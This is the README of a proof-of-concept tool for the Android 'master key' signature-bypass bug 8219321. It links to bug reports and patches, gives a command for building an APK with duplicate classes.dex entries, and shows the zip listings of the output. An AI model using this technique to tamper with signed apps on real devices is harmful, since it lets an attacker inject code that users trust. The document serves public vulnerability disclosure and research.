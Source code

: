 Android Master Keys
===================

This is a POC example for Android bug 8219321 (master keys):
  - [Well Written Explaination by Al Sutton](https://plus.google.com/113331808607528811927/posts/GxDA6111vYy)
  - [CyanogenMod Bug Report](https://jira.cyanogenmod.org/browse/CYAN-1602)
  - [CyanogenMod Patch](http://review.cyanogenmod.org/#/c/45251/)
  - [Blue Boxes' teaser of Blackhat talk](http://bluebox.com/corporate-blog/bluebox-uncovers-android-master-key/)
  - [POF's original POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8)
  - [Rekey.io - A Root framework patcher](http://www.rekey.io/)

Run it as:
```
java -jar bin/AndroidMasterKeys.jar -a Orig.apk -z modifiedAPK.apk
```

Please note that -most- ZIP libraries do not handle doing this properly.  UNIX zip's append will not allow file name collisions. It may be able to be done in Python, but it's default ZipFile append method only will add files in non-compressed.

The output from this [POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8) gives: 
```
➜  AndroidMasterKeys git:(master) unzip -vl pythonModdedApp.apk
Archive:  pythonModdedApp.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   196197  61%  07-08-13 21:53  81ab41c8  classes.dex
    1664  Stored     1664   0%  07-08-13 21:51  db586380  AndroidManifest.xml
  506720  Stored   506720   0%  07-08-13 21:51  1fee85e8  classes.dex
     194  Stored      194   0%  07-08-13 21:51  463e5f86  library.properties
     776  Stored      776   0%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
     515  Stored      515   0%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     462  Stored      462   0%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     692  Stored      692   0%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
    1761  Stored     1761   0%  07-08-13 21:51  e23c7570  rootdoc.txt
--------          -------  ---                            -------
 1020352           709837  30%                            10 files
 ```
 
 This tool takes proper care to not duplicate any files, while at the same time making sure that all 'appended' files are also compressed. 


 ```
unzip -vl AndroidMasterKeysModded.apk
Archive:  AndroidMasterKeysModded.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   195600  61%  07-08-13 21:53  81ab41c8  classes.dex
     692  Defl:N      311  55%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
    1664  Defl:N      621  63%  07-08-13 21:51  db586380  AndroidManifest.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
  506720  Defl:N   190564  62%  07-08-13 21:51  1fee85e8  classes.dex
     194  Defl:N      144  26%  07-08-13 21:51  463e5f86  library.properties
    1761  Defl:N      741  58%  07-08-13 21:51  e23c7570  rootdoc.txt
     462  Defl:N      298  36%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     515  Defl:N      330  36%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     776  Defl:N      604  22%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
--------          -------  ---                            -------
 1020352           390069  62%                            10 files
 ```
 
To hack on the project download SBT run the following to build a jar:
```
sbt assembly
```
You can also add the gen-idea plugin and generate IntelliJ project files as well.
